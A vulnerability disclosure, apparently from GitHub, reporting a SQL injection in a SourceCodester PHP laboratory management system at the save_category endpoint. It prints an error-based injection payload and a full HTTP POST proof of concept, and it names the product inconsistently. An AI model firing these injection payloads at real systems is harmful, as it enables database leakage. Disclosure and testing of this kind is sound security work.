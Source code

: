 # SQL-7

# Vulnerability Description

The best-pos-management-system-php in PHP Free Source Code (It is an open source project from [www.sourcecodester.com](www.sourcecodester.com)) has SQL injection vulnerabilities, which can lead to database information leakage.

1. BUG_Author:
2. vendors: [https://www.sourcecodester.com/php/17268/computer-laboratory-management-system-using-php-and-mysql.html](https://www.sourcecodester.com/php/17268/computer-laboratory-management-system-using-php-and-mysql.html)
3. The program is built using the PHP 7.3.4nts version;
4. Vulnerability location: /php-lms/classes/Master.php?f=save_category

[+] Payload:

```http
extractvalue(1,concat(char(126),md5(1919725625)))
```

POC：

```http
POST http://localhost/php-lms/classes/Master.php?f=save_category HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:124.0) Gecko/20100101 Firefox/124.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
X-Requested-With: XMLHttpRequest
Content-Type: multipart/form-data; boundary=---------------------------190692357828557768523090036370
Content-Length: 2285634
Origin: http://localhost
Connection: close
Referer: http://localhost/php-lms/admin/?page=category
Cookie: PHPSESSID=13o927b44gh33i0a70b00sc0ac
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin

-----------------------------190692357828557768523090036370
Content-Disposition: form-data; name="id"

extractvalue(1,concat(char(126),md5(1919725625)))
-----------------------------190692357828557768523090036370
Content-Disposition: form-data; name="name"

Mouse
-----------------------------190692357828557768523090036370
Content-Disposition: form-data; name="description"

Lorem ipsum dolor sit amet, consectetur adipiscing elit. Integer molestie ipsum ornare nunc pellentesque, ut iaculis diam facilisis.
-----------------------------190692357828557768523090036370
Content-Disposition: form-data; name="status"

1
-----------------------------190692357828557768523090036370
Content-Disposition: form-data; name="img"; filename="警院邀请函.jpg"
Content-Type: image/jpeg

aaaa
```

## How to verify

Build the vulnerability environment according to the steps provided by the source code author and execute the poc provided above：

​![image](assets/image-20240401093600-3wu5ehz.png)​

‍
